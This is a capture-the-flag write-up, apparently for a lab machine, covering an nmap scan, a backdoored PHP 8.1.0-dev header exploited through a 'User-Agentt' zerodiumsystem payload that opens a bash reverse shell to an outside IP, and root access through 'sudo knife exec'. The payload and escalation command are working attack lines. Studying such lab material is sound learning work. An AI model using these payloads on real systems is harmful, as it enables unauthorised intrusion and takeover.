 ## Phase 1: Enumeration

As always we start off with an nmap scan:


Nmap didn't show any outdated services, so we can check out the website. By visiting http://10.10.10.242 we can see that it's a static page - nothing interesting there: 
> Checking the source code with Ctrl+U doesn't show anything interesting either, however
> after going over to network tab through developer tools I saw this response header: ```X-Powered-By: PHP/8.1.0-dev```
* Since PHP 8.1.0 is outdated it's probably vulnerable to an exploit => ```https://www.exploit-db.com/exploits/49933```

## Phase 2: Exploitation

First I set up nc to listen on port 9001 (nc -lvnp 9001), then
I used Burp Suite and FoxyProxy to intercept request of http://10.10.10.242/ and send this request:
(image)
* Added ```User-Agentt:zerodiumsystem("bin/bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1 '");```

I sent the request and got a reverse shell: 
(image)
I then navigated to home/james and used ```cat user.txt``` to obtain the user flag
(user flag image)

## Phase 3: Privilege escalation

I started things out by running sudo -l to see which commands can be executed as sudo on this machine, as it turns out, we can execute /usr/bin/knife. Great!
(image of sudo-l)

So now I simply executed ```sudo knife exec --exec "exec '/bin/sh -i' "``` in the command line to get root.
After that I navigated to /root and used ```cat root.txt``` to get root flag
(root flag image)

And the box is complete!
